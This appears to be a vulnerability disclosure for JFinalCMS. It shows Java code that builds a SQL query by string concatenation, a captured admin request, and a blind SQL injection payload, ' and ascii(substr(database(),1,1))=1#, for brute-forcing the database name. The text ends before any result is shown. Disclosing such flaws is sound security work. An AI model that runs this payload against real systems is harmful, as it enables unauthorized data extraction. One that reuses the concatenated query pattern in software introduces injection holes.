



**BUG_Author:**

hadagaga

**Vendor:**

https://github.com/jwillber/JFinalCMS

**Software:**

https://github.com/jwillber/JFinalCMS

**Vulnerability File:**

#### src\main\java\com\cms\entity\ContentModel.java

```java
public Page<ContentModel> findPage(String name,Integer pageNumber,Integer pageSize){
	    String filterSql = "";
        if(StringUtils.isNotBlank(name)){
            filterSql+= " and name like '%"+name+"%'";
        }
	    String orderBySql = DBUtils.getOrderBySql("createDate desc");
		return paginate(pageNumber, pageSize, "select *", "from kf_content_model where 1=1 "+filterSql+orderBySql);
	}
```

​	Going back up, we find that the list controller that is managed by the content model is directly called, and we locate the administrator content management model management on the front-end and the query function point



​	After the query is made, the following packets are captured:

```http
GET /admin/content_model/list?name=test&pageSize=20&totalPage=1 HTTP/1.1
Host: 172.23.192.1:8888
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36 Edg/131.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://172.23.192.1:8888/admin/content_model/list
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: JSESSIONID=9D962EC77EDD63508C413E78024A69B1
Connection: close
```

​	The name parameter in the GET parameter is the injection point, an error is reported when a single quotation mark is entered, and it is normal after entering the annotator, try whether the sleep function is executable to determine whether the function is executable, find that the sleep function can be executed, and construct a payload:

```sql
' and ascii(substr(database(),1,1))=1#
```

​	Use BP blasting



​	After processing the data, the database name is obtained:

